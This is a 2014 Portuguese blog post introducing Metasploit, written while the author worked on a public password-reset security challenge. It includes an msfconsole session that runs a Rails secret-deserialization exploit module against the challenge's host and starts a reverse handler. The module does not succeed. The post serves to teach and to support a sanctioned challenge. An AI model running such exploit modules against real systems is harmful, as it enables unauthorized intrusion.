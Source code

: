 ```yaml
---
title: "[Small Bite] Brincando com Metasploit"
date: '2014-08-27T14:03:00-03:00'
slug: small-bite-brincando-com-metasploit
tags:
- metasploit
- security
- segurança
draft: false
---
```


Ontem o [@joernchen](https://twitter.com/joernchen) mandou um pequeno [desafio básico de segurança](https://twitter.com/joernchen/status/504304803045208064) pra comunidade. Ele postou um código de uma pequena aplicação, colocou ela no ar, e nos desafiou a resetar a senha do administrador.
  
Confesso que demorei mais do que gostaria mas no fim eu consegui - e foi simples (post sobre isso vem depois).
  
No caminho eu acabei explorando o [Metasploit](http://www.metasploit.com), provavelmente um dos melhores e mais conhecidos pacotes de testes de penetração de segurança. E alguns não sabem disso mas ele não só é código-aberto (existem ferramentas e serviços pagos) como é uma aplicação Rails! Então vale muito a pena acompanhar esse projeto.

O @joernchen já [contribuiu no código](https://github.com/rapid7/metasploit-framework/commits?author=joernchen) do Metasploit incluindo o famigerado exploit para [Remote Code Execution no Rails](https://github.com/rapid7/metasploit-framework/commit/7f3eccd64453c3708ad4cb7ed7a6ea18354bac3d) (calma, as versões novas já não tem mais isso!)

Instalar o Metasploit no seu sistema é simples. Este [blog post](http://www.darkoperator.com/installing-metasploit-in-ubunt/) descreve como. Ele começa falando para baixar um script que faz tudo mas, se você usa RVM ou RBenv ou não usa Ubuntu, faça na mão, é mais simples. Não vou repetir o que já está no post então acompanhe lá.

No final, você deve ter o metasploit instalado e com o comando <tt>msfconsole</tt> a partir de onde já dá pra começar a brincar. Por exemplo, uma das coisas que eu tentei ver foi se o aplicativo do desafio sofria o problema de remote code execution que mencionei acima, pra isso, uma vez dentro do console eu fiz:

```
msf exploit(rails_json_yaml_code_exec) > use exploit/multi/http/rails_secret_deserialization
msf exploit(rails_secret_deserialization) > set RHOST getthisadmin.herokuapp.com
msf exploit(rails_secret_deserialization) > set TARGETURI /reset/_csrf_token
msf exploit(rails_secret_deserialization) > run
[*] Started reverse handler on 192.168.47.172:4444
[*] Checking for cookie _csrf_token
[!] Caution: Cookie not found, maybe you need to adjust TARGETURI
[*] Trying to leverage default controller without cookie confirmation.
[*] Sending cookie _csrf_token
msf exploit(rails_secret_deserialization) > exit
```

E podemos ver que o problema não é esse. No Metasploit você carrega um dos muitos módulos de exploit que quer explorar (veja [lista no próprio código fonte](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits/multi/http)). Cada exploit tem várias opções pra configurar (execute <tt>show options</tt> para mostrar as configurações). Use o comando <tt>set</tt> para configurar com o site que quer explorar. Finalmente, rode com <tt>run</tt> para executar e ver se tem o exploit ou não.

Eu mesmo não sou um expert em segurança mas conheço o básico e explorar o Metasploit pode ser uma excelente fonte para você entender como funcionam exploits de segurança. O código de cada módulo é em Ruby e é muito fácil de ler.

E já descobriram o desafio do @joernchen? Neste post eu já dei uma grande dica ;-) Comentem se conseguiram, mas não dêem a resposta ainda pra todo mundo poder testar.

